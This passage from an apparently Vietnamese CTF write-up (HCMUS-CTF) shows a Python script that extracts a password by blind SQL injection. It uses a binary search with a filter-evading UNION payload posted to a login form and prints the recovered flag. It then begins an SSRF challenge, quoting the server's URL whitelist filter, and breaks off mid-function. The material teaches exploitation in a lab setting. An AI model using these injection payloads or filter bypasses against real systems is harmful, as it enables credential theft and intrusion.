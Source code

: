 ```python
r = b2l(b'\xff' * length)

bar = tqdm(total=r.bit_length()) # O(logn) lol
t1_start = perf_counter()

while l < r:
  m = (l + r) // 2
  sent = hex(m).upper()[2:]

  bar.set_description(f"Testing: {l2b(m)}")
  payload = f"' OUNIONR (id = 1337 AND hex(password) > '{sent}') -UNION- -"
  res = session.post(url, {"password": payload})
  if 'safe.jpg' in res.text:
    r = m - 1
  else:
    l = m + 1
  bar.update(1)

t1_stop = perf_counter()
bar.close()
print("Elapsed time:", t1_stop - t1_start)

```
#### Output
![Exploit](https://i.imgur.com/9UbAdvX.png)
**Flag:** `HCMUS-CTF{SelECt_SeLEcT_Unt1l_y0U_G3t_th3_fl3g!!?!!??}`


## Cute Page 2
2 challenges này chủ yếu nhắm đến việc bypass filter để sử dụng SSRF (Server side request forgery) cho server gửi request đến /flag với IP là 127.0.0.1
### Challenge 1
```javascript
const hostWhiteList = [
  "www.youtube.com/watch",
  "kenhsinhvien.vn/topic",
  "www.w3schools.com/js",
  "info.cern.ch/hypertext",
  "gaia.cs.umass.edu/kurose_ross",
  "www.hcmus.edu.vn/component/content/",
];
const protocolWhiteList = ["http", "https"];

function filter(url) {
  let t = url.split("://", 2);
  let protocol = t[0];
  let host = t[1];

  if (
    !protocolWhiteList.some((p) => {
      return protocol.startsWith(p) && protocol.endsWith(p);
    })
  )
    return false;

  if (
    !hostWhiteList.some((h) => {
      return host.startsWith(h);
    })
  )
    return false;
```